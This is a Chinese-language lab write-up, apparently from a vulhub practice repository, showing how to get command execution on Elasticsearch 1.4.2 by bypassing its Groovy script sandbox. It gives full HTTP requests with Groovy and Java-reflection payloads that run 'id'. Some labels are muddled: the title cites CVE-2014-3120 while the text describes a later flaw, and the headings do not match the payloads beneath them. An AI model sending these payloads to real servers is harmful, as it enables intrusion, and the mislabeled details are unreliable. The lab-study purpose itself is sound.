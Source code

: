 # ElasticSearch 命令执行漏洞（CVE-2014-3120）

###### by ADummy

### 0x00利用路线

​			Burpsuite抓包--->java代码放入json--->有回显命令执行

### 0x01漏洞介绍

​			CVE-2014-3120后，ElasticSearch默认的动态脚本语言换成了Groovy，并增加了沙盒，但默认仍然支持直接执行动态语言。本漏洞：1.是一个沙盒绕过； 2.是一个Goovy代码执行漏洞。

​			jre版本：openjdk:8-jre

​			elasticsearch版本：v1.4.2

## Groovy语言“沙盒”

ElasticSearch支持使用“在沙盒中的”Groovy语言作为动态脚本，但显然官方的工作并没有做好。lupin和tang3分别提出了两种执行命令的方法：

1. 既然对执行Java代码有沙盒，lupin的方法是想办法绕过沙盒，比如使用Java反射
2. Groovy原本也是一门语言，于是tang3另辟蹊径，使用Groovy语言支持的方法，来直接执行命令，无需使用Java语言

所以，根据这两种执行漏洞的思路，我们可以获得两个不同的POC。

Java沙盒绕过法：

```
java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("id").getText()
```

Goovy直接执行命令法：

```
def command='id';def res=command.execute().text;res
```

### 0x02漏洞复现

**主页：**

![ElasticSearch_RCE2_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ElasticSearch_RCE2_1.jpg)

首先，该漏洞需要es中至少存在一条数据，所以我们需要先创建一条数据：

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "test"
}
```

![ElasticSearch_RCE2_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ElasticSearch_RCE2_2.jpg)

**Goovy直接执行命令**

```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 156

{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}
```

![ElasticSearch_RCE2_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ElasticSearch_RCE2_3.jpg)

**Java沙盒绕过法：**

```
POST /_search?pretty HTTP/1.1
Host: 192.168.68.132:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 489

{
    "size":1,
    "script_fields": {
        "test#": {  
            "script":
                "java.lang.Math.class.forName(\"java.io.BufferedReader\").getConstructor(java.io.Reader.class).newInstance(java.lang.Math.class.forName(\"java.io.InputStreamReader\").getConstructor(java.io.InputStream.class).newInstance(java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getInputStream())).readLines()",

            "lang": "groovy"
        }
    }

}
```

![ElasticSearch_RCE2_4](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ElasticSearch_RCE2_4.jpg)

### 0x03参考资料

https://www.cnblogs.com/qianxiao996/p/13574653.html